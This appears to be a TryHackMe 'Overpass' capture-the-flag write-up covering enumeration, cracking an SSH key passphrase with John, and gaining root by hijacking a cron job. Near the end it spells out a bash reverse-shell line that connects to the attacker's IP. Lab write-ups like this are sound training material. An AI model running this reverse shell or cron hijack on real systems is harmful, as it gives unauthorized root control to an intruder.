overpass
THM Overpass
Enumeration
Rustscan

Nmap

Directory Enumeration


Foothold
\



We copy the ssh private id into the ssh_hash file. Then convert it to john format as folllows and then crack it.

We use the found password to login into ssh using the id_key and password found

We get 2 documents in the user directory as follows.

As system password is stored in overpass. We find it and run it as follows
Choose Option 4 to dump the passwords. We get james password

Privilege Escalation
We checked sudo, james had no sudo access.
Next we focus on crontabs

Every minute root visits the webiste overpass.thm
We edit the hosts files for overpass.thm to point our local websever.

In Kali Machine
We create a revershell and host it as following.

Contents in buildscript.sh
bash -i >& /dev/tcp/10.11.72.31/8888 0>&1

Within a minute, the crotab will be called and we will get a root shell.

Thanks!!